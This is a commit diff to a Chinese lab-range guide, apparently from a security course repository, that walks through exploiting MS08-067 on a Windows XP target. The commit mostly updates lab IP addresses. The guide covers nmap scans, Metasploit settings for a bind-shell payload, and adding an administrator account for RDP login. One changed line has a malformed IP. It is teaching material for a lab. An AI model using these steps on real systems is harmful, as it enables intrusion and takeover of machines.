

Before and after one commit to cucsecmodan/2024-practical-lessons-repository, a Markdown page: 靶场操作指导/README.md, 3 parts joined by grey strips. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
rectify ipaddress

````diff
--- a/靶场操作指导/README.md
+++ b/靶场操作指导/README.md
@@ -317,12 +317,12 @@ Win XP：192.168.44.135
 
 第一步，利用Nmap工具扫描端口及确认该漏洞是否存在。
 ```bash
-nmap -n -p 445 --script smb-vuln-ms08-067 192.168.44.135 --open
+nmap -n -p 445 --script smb-vuln-ms08-067 192.168.163.137 --open
 ```
-nmap漏扫脚本目录为“/usr/share/nmap/script/”，如下图所示，扫描结果为VULNERABLE，表示MS0808-067漏洞存在且可以利用。
-或者使用 “nmap -sV -Pn 192.168.44.135” 查看目标主机开放的端口。目标机开放了135、139、445、1025、5000端口，且目标机系统为Windows XP。作为黑客，一看到XP或2003系统的445端口开放，我们就能想到轰动一时的MS08-067。
+nmap漏扫脚本目录为 `/usr/share/nmap/script/` ，如下图所示，扫描结果为VULNERABLE，表示MS0808-067漏洞存在且可以利用。
+或者使用 `nmap -sV -Pn 192.168.163.137` 查看目标主机开放的端口。目标机开放了135、139、445、1025、5000端口，且目标机系统为Windows XP。作为黑客，一看到XP或2003系统的445端口开放，我们就能想到轰动一时的MS08-067。
 ```bash
-nmap  -sV -Pn 192.168.44.135
+nmap  -sV -Pn 1192.168.163.137
 ```
 
 第二步，进入Msfconsole并利用search语句查找漏洞利用模块。
@@ -343,13 +343,13 @@ show targets
 第四步，设置攻击机、受害机信息。
 ```bash
 # 目标机ip
-set RHOST 192.168.44.135
+set RHOST 192.168.163.137
 # 端口号
 set RPORT 445
 # 设置payload
 set payload generic/shell_bind_tcp
 # 攻击机ip
-set LHOST 192.168.44.136
+set LHOST 192.168.163.128
 # 设置自动类型
 set target 0
 # 显示配置信息
@@ -357,7 +357,7 @@ show options
 ```
 
 第五步，运行exploit反弹shell。
-此时我们成功获取了Windows XP系统的Shell，我们调用“ipconfig”查看的IP地址也是目标的“192.168.44.135”。
+此时我们成功获取了Windows XP系统的Shell，我们调用“ipconfig”查看的IP地址也是目标的 `192.168.163.137` 。
 ```bash
 exploit
 session 1
@@ -365,8 +365,6 @@ ipconfig
 pwd
 ```
 注意：Windows XP SP1系统是中文而不是英文的，需要对ms08_067_netapi_ser2003_zh.rb处理。
-
-参考：MS08-067 远程执行代码 漏洞复现 - feizianquan
 
 第六步，在目标主机上创建文件夹及文件。
 ```bash
@@ -413,7 +411,7 @@ net localgroup administrators abcd /add
 
 输入命令开启远程连接端口。
 
-接着输入“rdesktop 192.168.44.135”连接远程IP地址，并输入我们创建好的hacker用户名及密码。
+接着输入 `rdesktop 192.168.163.137` 连接远程IP地址，并输入我们创建好的hacker用户名及密码。
 
 输入创建的用户名hacker和密码123456回车，弹出提示框点击OK，稍等就会成功远程登录XP系统。
 
@@ -424,7 +422,7 @@ net localgroup administrators abcd /add
 
 ```bash
 # 端口查询
-nmap -n -p 445 --script smb-vuln-ms08-067 192.168.44.135 --open
+nmap -n -p 445 --script smb-vuln-ms08-067 192.168.163.137 --open
 
 # 查找漏洞利用模块
 msfconsole
@@ -436,10 +434,10 @@ show options
 show targets
 
 # 设置相关配置信息
-set RHOST 192.168.44.135
+set RHOST 192.168.163.137
 set RPORT 445
 set payload generic/shell_bind_tcp
-set LHOST 192.168.44.136
+set LHOST 192.168.163.128
 set target 0
 show options
 
````
Also changed, not shown: other parts of 靶场操作指导/README.md (+3 -3 lines).
